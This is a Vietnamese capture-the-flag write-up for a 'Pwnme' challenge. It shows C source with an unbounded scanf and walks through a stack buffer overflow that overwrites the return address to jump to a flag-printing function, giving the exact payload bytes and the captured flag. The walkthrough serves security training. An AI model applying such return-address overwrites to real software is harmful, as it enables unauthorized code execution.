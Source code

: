 # Pwnme

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/282477ad-19de-42ee-88db-810c0d42169c)

----
Đầu tiên khi đọc bài, ta biết luôn phải sử dụng buffer overflow. Mình sẽ tải thử cả 2 file được cung cấp về

**Source Code**
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void hacked()
{
    FILE *file = fopen("flag.txt", "r");
    if (file == NULL)
    {
        printf("Could not open file flag.txt\n");
        return;
    }

    char buffer[256]; // Buffer to hold the file contents

    printf("Flag content:\n");
    while (fgets(buffer, sizeof(buffer), file) != NULL)
    {
        printf("%s", buffer);
    }

    fclose(file);
    printf("\nThis function is TOP SECRET! How did you get in  :O\n");
}

void register_name()
{
    char buffer[16];
    

    printf("Name:\n");
    fflush(stdout);
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);   
}

int main()
{
    
    register_name();

    return 0;
}
```

Với source code này, mình nhận ra chúng ta phải sử dụng buffer overflow để gọi function `hacked`. Bây giờ mình sử dụng ida kiểm tra xem địa chỉ lưu trữ function `hacked` ở đâu

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/c716d748-1b42-4650-86b4-f6bcd856e6a4)

Nó ở địa chỉ 400707. Mình sẽ sử dụng lệnh `file` để kiểm tra xem nó là **MSB** hay **LSB**. Cái này sẽ quy định buffer được ghi như thế nào.

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/e9ce7445-8c1e-4a11-9008-fb6d5f96ccf9)

Vậy ta sẽ có payload như sau

`100000000000000000000000\x07\x07\x40`

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/3d895a19-f5d8-409d-91b4-e99523547b42)

Thử nhập nó lên server

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/3be66ff6-b049-4f72-881b-a2a89a769c78)

Có vẻ như nó lỗi

Mình quay lại ida để xem thì phát hiện ra ở địa chỉ đó, lệnh của nó là `push rbp`, mà tại đây base pointer của ta đang chưa có chỉ về function `hacked` nên nó xảy ra lỗi. Mình thử đổi lại payload sao cho nó chỉ về `mov rbp, rsp`

`100000000000000000000000\x08\x07\x40`

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/0ff3d3d5-e174-4c32-a53c-14aebba71262)

Cúng tìm hiểu thêm được lỗi `Segmentation fault (core dumped)` tức là chạy nhầm trên vùng nhớ nào đó, hoặc tràn bộ đệm \(Source: [https://daynhauhoc.com/](https://daynhauhoc.com/t/loi-segmentation-fault-core-dumped-la-loi-gi/11210)\)

Chạy thử payload này lên server

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/cd115bd7-4940-48d6-b751-3155d0c5fa83)

Flag: `FUSec{On35H00tOnEkil1}`

----
> Credit [wdchocopie](https://github.com/wdchocopie)

**--- End ---**

